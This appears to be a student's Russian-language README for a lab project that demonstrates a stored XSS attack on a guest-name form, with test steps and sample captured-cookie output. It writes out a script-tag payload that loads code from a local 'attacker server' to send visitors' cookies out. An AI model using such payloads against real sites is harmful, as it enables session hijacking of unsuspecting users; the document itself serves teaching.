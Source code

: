 # web
Автор: Конев Денис

## Описание
самостоятельна работа: пример XSS атаки

## Использование
Пользыватели вводят своё имя и могут увидеть имена других пользывателей. При этом, нехороший человек может ввести вместе с именем и скрипт, который не будет виден но будет выполнятся, отправляя cookie пользывателей злаумышлиникам. Для этого он вводит такой скрипт после имени: 
<script src="http://localhost:5050/name.js"></script>
В результате все пользываетели которые решили посмотреть список гостей, отправят ссвои cookie злаумышлиникам, сами того не зная.

## Комментарии
localhost:5050 это сервер злоумышленника.
выполняем следующие действия для проверки работы:
- запускаем оба сервера
- открываем браузер в режиме Инкогнито (чтобы cookie были пустыми в самом начале)
- делаем запросы:
1) http://localhost:5005/form и вводим там любое имя в форму и отправляем
2) http://localhost:5005/form и вводим следующие: Имя<script src="http://localhost:5050/name.js"></script>
3) http://localhost:5005/form и вводим что угодно, и мы увидим, что серевер злаумышлинников получил cookie
4) http://localhost:5005/echo?message=Hello тем самым изменим cookie в нашем браузере (cookie не создаются рандомно, а одни если мы сходим на /form и другие если на echo?message=...)
5) http://localhost:5005/get?username=NAME тем самым мы не сменим cookie и увидим список посетителей, а значит, отправим наши cookie
Мы видим в консоли сервера злоумышленника:
до 4) login get-successfully-cookie-secretum
полсе 4) login get-successfully-cookie-secretum; login=ok-echo